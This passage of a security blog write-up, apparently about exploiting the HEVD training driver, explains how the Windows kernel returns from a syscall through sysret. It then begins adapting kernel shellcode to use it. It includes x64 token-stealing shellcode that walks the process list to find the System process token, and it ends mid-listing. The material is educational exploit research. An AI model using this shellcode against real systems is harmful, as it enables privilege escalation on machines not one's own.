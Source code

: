 Now that we mostly understand what happens when a `syscall` is dispatched from usermode all the way up to kernelmode, we're interested in how the kernel reverts back to usermode.  
Therefore, a point of interest is the function's exit points, like this one:  
![](/assets/images/sysret_shellcode/KiSystemCall64_end_small.jpg)

Specifically, it's using `sysret` and that's what we're expecting after we've performed `syscall`.  
We see it's setting the registers _rax, r8, r9, rcx, r11, rbp, rsp_ from some struct and zeroing _edx_ and _xmm_ registers.  
The _rdx, r8, r9, and xmm1-xmm5_ registers are [considered volatile](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-160) so their value isn't really meaningful and we can ignore them.  
The struct that these registers are copied from is that trap frame we talked about.  

Then, the function executes `swapgs` again so the usermode code has access to its own TEB, and finally runs `sysret`.  
_sysret_ does exactly the reverse of _syscall_, which I've detailed here already so I won't dive deeper into that.  
<br/>  

## Implementation
Using all of our knowledge, let's just try it, and adapt one of our kernel shellcodes to use `sysret` and see what happens.  
I'll use the [stack-fixing shellcode](https://github.com/Kristal-g/kristal-g.github.io/blob/master/assets/code/shellcode_fix_stack_pivot.asm) from the [type confusion writeup]({% post_url 2021-03-11-HEVD_Type_Confusion_Windows_10_RS5_x64 %}) as the basis because fixing the stack and restoring `rsp` there feels a bit unstable to me, making it interesting to check if it can be replaced.  
We'll keep the traditional token-stealing part: 
```nasm
start:
	xor rax, rax
	mov rax, [gs:rax + 188h]		; gs[0] == KPCR, Get KPCRB.CurrentThread field
	mov rax, [rax+0xb8]		; Get (KAPC_STATE)ApcState.Process (our EPROCESS)
	mov r9, rax;			; Backup target EPROCESS at r9
	
	; loop processes list
	mov rax, [rax + 0x448]	; +0x448 ActiveProcessLinks : _LIST_ENTRY.Flink; Read first link
	mov rax, [rax]			; Follow the first link
system_process_loop:
	mov rdx, [rax - 0x8]	; ProcessId
	mov r8, rax;			; backup system EPROCESS.ActiveProcessLinks pointer at r8
	mov rax, [rax]			; Next process
	cmp rdx, 4			; System PID
	jnz system_process_loop
	
	mov rdx, [r8 + 0x70]
	and rdx, 0xfffffffffffffff8			; Ignore ref count
	mov rcx, [r9 + 0x4b8]
```